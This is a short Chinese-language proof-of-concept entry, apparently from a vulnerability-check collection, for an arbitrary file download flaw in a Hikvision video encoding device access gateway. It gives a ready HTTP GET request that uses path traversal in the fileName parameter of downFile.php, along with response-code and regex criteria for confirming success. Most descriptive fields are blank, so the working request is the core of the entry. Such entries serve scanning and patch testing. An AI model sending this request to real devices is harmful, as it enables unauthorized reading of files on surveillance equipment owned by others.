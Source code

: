 ﻿# HIKVISION 视频编码设备接入网关任意文件下载

> 更新时间：2023-12-16

> 漏洞编号：

> 漏洞说明：

> 漏洞特征：

> 验证脚本：HTTP

```
GET /serverLog/downFile.php?fileName=../web/html/serverLog/downFile.php HTTP/1.1

```

> 响应代码特征：200

> 响应内容特征：^(?=.*?file_name)(?=.*?file_dir).*?$

> 上传文件定位：


> 验证文件来源：HIKVISION 视频编码设备接入网关任意文件下载.poc
